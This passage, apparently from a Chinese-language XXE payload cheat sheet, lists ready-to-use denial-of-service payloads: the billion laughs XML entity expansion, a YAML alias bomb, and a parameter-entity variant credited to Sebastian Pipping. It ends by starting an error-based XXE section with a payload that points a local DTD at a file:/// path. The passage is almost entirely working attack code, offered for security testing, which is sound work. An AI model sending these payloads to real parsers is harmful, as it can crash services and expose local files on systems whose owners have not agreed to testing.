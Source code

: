 ## 利用XXE进行拒绝服务攻击

:warning: 这些攻击可能会使服务或服务器崩溃，请勿在生产环境中使用。

### 十亿笑攻击

```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

### YAML攻击

```xml
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```

### 参数笑攻击

Sebastian Pipping提出的十亿笑攻击变体，使用延迟解释参数实体。

```xml
<!DOCTYPE r [
  <!ENTITY % pe_1 "<!---->">
  <!ENTITY % pe_2 "&#37;pe_1;<!---->&#37;pe_1;">
  <!ENTITY % pe_3 "&#37;pe_2;<!---->&#37;pe_2;">
  <!ENTITY % pe_4 "&#37;pe_3;<!---->&#37;pe_3;">
  %pe_4;
]>
<r/>
```

## 利用基于错误的XXE

### 基于错误的——使用本地DTD文件

如果基于错误的提取是可能的，您仍然可以依赖本地DTD来执行连接技巧。用于确认错误消息包含文件名的有效载荷。

```xml
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///abcxyz/">
    %local_dtd;
]>
<root></root>
```
